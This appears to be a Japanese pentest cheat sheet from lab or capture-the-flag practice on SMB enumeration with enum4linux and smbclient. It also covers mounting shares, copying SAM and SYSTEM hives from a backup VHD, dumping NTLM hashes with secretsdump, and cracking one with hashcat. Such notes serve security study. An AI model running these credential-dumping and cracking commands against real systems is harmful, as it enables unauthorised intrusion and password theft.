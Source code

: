 ```
```

### enum4linux
```
enum4linx 10.10.10.1
```
```
enum4linux -a 10.10.10.1
```
```
enum4linux -S -U -o 10.10.10.1
```
- -S...共有リスト取得
- -U...ユーザリスト取得
- -o...OS情報取得
- -A...全ての基本的な列挙

### smbclient
匿名ログインが有効になっているかの確認。
```
smbclient -L -N //10.10.10.1
smbclient -L //10.10.10.1
smbclient -N //10.10.10.1
smbclient //10.10.10.1/tmp
smbclient //10.10.10.1/tmp -U <username>
```
- -L...リストを表示
- -N...パスワードなし
- -U...ユーザ名の指定
- -p...ポートの指定

```
Unable to connect with SMB1 -- no workgroup available
```
上記が表示された場合には-Lオプションを取り除いて、
```
smbclient //10.10.10.1/Backups
smbclient -N //10.10.10.1/Backups
```
などを指定する。

#### 共有フォルダのマウント
```
sudo mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
sudo mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
```

VHD Mount(VHDファイルからSAMとSYSTEMを抽出):
```
sudo apt-get install libguestfs-tools
sudo mkdir /mnt/vhd
sudo guestmount --add file.vhd --inspector --ro -v /mnt/vhd
sudo cd /Windows/System32/config
cp SAM SYSTEM /home/kali

impacket-secretsdump -sam SAM -system SYSTEM local
or
/usr/share/creddump7/pwdump.py SYSTEM SAM

L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
hashcat -m 1000 --force 26112010952d963c8dc4217daec986d9 /usr/share/wordlists/rockyou.txt
```
